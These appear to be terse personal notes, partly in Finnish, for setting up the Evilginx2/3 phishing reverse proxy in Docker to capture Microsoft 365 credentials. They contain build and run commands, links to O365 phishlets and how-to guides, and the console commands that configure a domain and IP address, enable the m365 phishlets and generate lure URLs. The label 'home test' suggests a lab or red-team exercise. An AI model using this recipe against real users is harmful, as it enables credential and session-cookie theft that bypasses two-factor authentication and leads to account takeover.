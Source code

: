 docker build -t apa/evilgnix2 .
https://github.com/vishnudxb/docker-evilginx2

https://github.com/froyo75/docker-evilginx2/tree/main

https://github.com/warhorse/docker-evilginx2

https://github.com/An0nUD4Y/Evilginx2-Phishlets/blob/master/o365.yaml

https://m0chan.github.io/2019/07/26/Bypassing-2FA-For-Fun-With-Evilginx2.html

https://github.com/CraftedCat/evilginx2-1

```docker
docker create --name=evilginx2 -e TZ=Europe/London -p 445:443 -p 85:80 -v ./config:/config -v ./phislets:/phishlets --restart unless-stopped apa/evilgnix2:latest

```



lataa phisletit `/app# evilginx -p phishlets/`



Kotitesti

huoleton-myyja@leikkikentta.net


docker exec -it evilginx2 /bin/bash
evilginx -p /app/phishlets/


config domain leikkikentta.fi
phishlets hostname m365 leikkikentta.fi
config ipv4 88.86.150.114
phishlets enable m365

lures create m365

lures get-url 0

Paras guide:
- https://janbakker.tech/how-to-set-up-evilginx-to-phish-office-365-credentials/
- https://github.com/BakkerJan/evilginx3/blob/main/microsoft365.yaml
- https://github.com/BakkerJan/evilginx3/blob/main/microsoft365-adfs.yaml
- https://janbakker.tech/evilginx-resources-for-microsoft-365/
- https://www.youtube.com/watch?v=1SqH4n4suX4

https://help.evilginx.com/docs/guides/blacklist

phishlets hostname microsoft365 leikkikentta.fi
phishlets enable microsoft365

lures create microsoft365

lures get-url 1


villain@gonephishing



sudo service systemd-resolved stop
sudo nano /etc/resolv.conf
sudo evilginx